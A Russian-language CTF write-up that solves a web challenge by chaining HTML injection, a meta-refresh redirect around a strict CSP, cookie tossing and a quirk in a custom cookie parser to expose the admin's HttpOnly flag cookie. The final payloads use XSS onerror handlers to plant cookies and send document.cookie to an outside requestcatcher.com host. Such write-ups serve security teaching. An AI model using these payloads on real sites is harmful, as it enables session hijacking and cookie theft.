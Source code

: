# Мультипаспорт

**Ссылка**: http://10.63.0.102:1337<br>
**Автор**: andreika47

## Описание

Для регистрации в системе, пожалуйста, предъявите ваш мультипаспорт

**Данные для участников:**
1. multipassport
2. http://10.63.0.102:1337

## Решение
Функционал приложения позволяет написать свой HTML код, который потом отрендерится на отдельной странице. Далее, этот код можно отправить на проверку администратору.
![Основной экран](https://gitlab.ctflab.local/andreika47/multipassport/-/raw/main/pic1.png)
![Возможна XSS](https://gitlab.ctflab.local/andreika47/multipassport/-/raw/main/pic2.png)
![Отправляем HTML на проверку](https://gitlab.ctflab.local/andreika47/multipassport/-/raw/main/pic3.png)
Изучив код задания можно выделить следующие интересные моменты:

1.  Администратор взаимодействует с приложением через браузер
2.  Флаг содержится в HttpOnly куке администратора
3.  Реализован кастомный парсинг заголовка с куками:
```
function parseCookies(cookieHeader)
```
4.  Пользователь и администратор используют разные эндпоинты для отображения HTML кода:  
```
ssessionRouter.get('/site/:id'  
adminRouter.get('/site/:id'  
```
Есть определенные намеки, что нужно эксплуатировать XSS и как-то украсть куку администратора.
Начнем с последнего шага: на пользовательском эндпоинте в коде явно задается CSP, позволяющая выполнять JavaScript код на странице.
```
CSP = '<meta http-equiv="Content-Security-Policy" content="default-src * \'unsafe-inline\'">';
```
На странице администратора CSP другая - она запрещает выполнение кода.
```
CSP = '<meta http-equiv="Content-Security-Policy" content="default-src \'none\'">';
```
Значит нам нужно либо обойти эту политику, либо заставить администратора зайти на пользовательский эндпоинт без строгой CSP.
Редирект на пользовательский эндпоинт можно сделать, например, внедрив тег meta. Однако, теги meta должны быть внутри тега head, а наш код вставляется в тег body. Но так как наш HTML код никак не валидируется и не санитизируется:
```  
hosting_template = `<!DOCTYPE html>
	<html lang="ru">
		<head>
			<meta charset="UTF-8">
			<meta name="viewport" content="width=device-width, initial-scale=1.0">
			{{CSP}}
			<title>Мультипаспорт Федерации Планет</title>
			<link rel="stylesheet" href="/styles.css">
		</head>
		<body>
			{{site.html}}
			<div class="footer">
				<p>● НАРУШЕНИЕ МЕЖГАЛАКТИЧЕСКОГО АКТА 17-Ω КАРАЕТСЯ ИЗГНАНИЕМ В HYPERVISOR ●</p>
			</div>
			{{button}}
		</body>
	</html>`

…  
html = hosting_template
	.replaceAll("{{site.html}}", site.html || 'Мультипаспорт не найден')
	.replaceAll("{{site.id}}", site.id || 'ID не найден')
	.replaceAll("{{CSP}}", CSP)
	.replaceAll("{{button}}", button);

res.send(html);
```
То мы можем закрыть тег body, добавить свою секцию head и начать новую секцию body:
```
</body>
<head>
	<meta http-equiv="refresh" content="1; url=/public/site/{{site.id}}">
</head>
<body>
```
Далее, нужно обратить внимание, что при обращении к эндпоинту с нашим HTML кодом проверяется наличие сессии, соответствующей автору кода, или куки с флагом.
```
if ((!req.cookies["SESSION"] || req.cookies["SESSION"].toString() !== site.owner.toString()) && (!req.cookies["FLAG"] || req.cookies["FLAG"].toString() !== FLAG)) {
	return res.status(403).send('Это не ваш Мультипаспорт');
}
```
Администратор может ходить на наш сайт, так как у него есть кука с флагом. И теперь стоит разобраться с парсингом заголовка Cookie.
Самодельный парсер берет заголовок Cookie, где передаются все куки запроса и пытается разбить его на названия кук и значения. Необходимо заметить особенность обработки кук с двойными кавычками: парсер будет считать все, что окружено двойными кавычками значением куки. Тогда мы можем передать в запросе куку с открывающей двойной кавычкой, тогда все данные, указанные после нее будут распаршены как значение нашей куки:
```
Cookie: SomeCookie=12345; OUR_COOKIE=”1234; OtherAdminCookie=5678;
```
В таком случае парсер должен вернуть:
```
SomeCookie: 12345
OUR_COOKIE: ”1234; OtherAdminCookie=5678;
```
Важный нюанс: нужно не забыть закрыть кавычку, чтобы парсер отработал корректно. Тогда мы сможем добавить такие куки, чтобы кука с флагом была между открывающие и закрывающей кавычек и она будет записано как значение нашей куки без HttpOnly. Нам нужно получить примерно следующий заголовок Cookie:
```
Cookie: FLAF="1; FLAG=flag{REAL_FLAG}; FLAH=1”;
```
Если подкинуть куки, обрамляющие FLAG в кавычки, то эта кука "пропадет" у администратора и наш сайт перестанет быть ему доступен. Значит нам нужно подкинуть администратору куку с нашей сессией:
```
</body>
<head>
	<meta http-equiv="refresh" content="1; url=/public/site/{{site.id}}">
</head>
<body>
	<img src=x onerror='document.cookie="SESSION=e8a92517b30188823fae8f8ec690e9df; Path=/public; domain=localhost"'>
```
Для того, чтобы наша кука SESSION была более приоритетной, чем кука администратора, необходимо чтобы у наше куки был определен параметр Path. Подробнее про это можно почитать в статье про Cookie Tossing или в отчете нашего CTF SPACE-2.
Проверяем, что мы добились XSS:
```
</body>
<head>
	<meta http-equiv="refresh" content="1; url=/public/site/{{site.id}}">
</head>
<body>
	<img src=x onerror='document.cookie="SESSION=e8a92517b30188823fae8f8ec690e9df; Path=/public; domain=localhost"'>
	<img src="x" onerror='var xhr = new XMLHttpRequest();xhr.open("GET", "https://1234.requestcatcher.com/leak?token=" + encodeURIComponent(document.cookie), false);xhr.send();'>
```

Порядок кук с одинаковым Path не стандартизирован и зависит от реализации браузера. Поигравшись с порядком кук в Chromium получаем итоговый пэйлоад с подстановкой сессии и кук с двойными кавычками:
```
</body>
<head>
  <meta http-equiv="refresh" content="1; url=/public/site/{{site.id}}">
</head>
<body>
  <img src=x onerror='document.cookie="RESSION=1\"; Path=/public; domain=localhost"'>
  <img src=x onerror='document.cookie="SESSION=e8a92517b30188823fae8f8ec690e9df; Path=/public; domain=localhost"'>
  <img src=x onerror='document.cookie="FLAg=\"1; Path=/public; domain=localhost"'>
  <img src="x" onerror='var xhr = new XMLHttpRequest();xhr.open("GET", "https://1234.requestcatcher.com/leak?token=" + encodeURIComponent(document.cookie), false);xhr.send();'>
```
![Флаг получен](https://gitlab.ctflab.local/andreika47/multipassport/-/raw/main/pic6.png)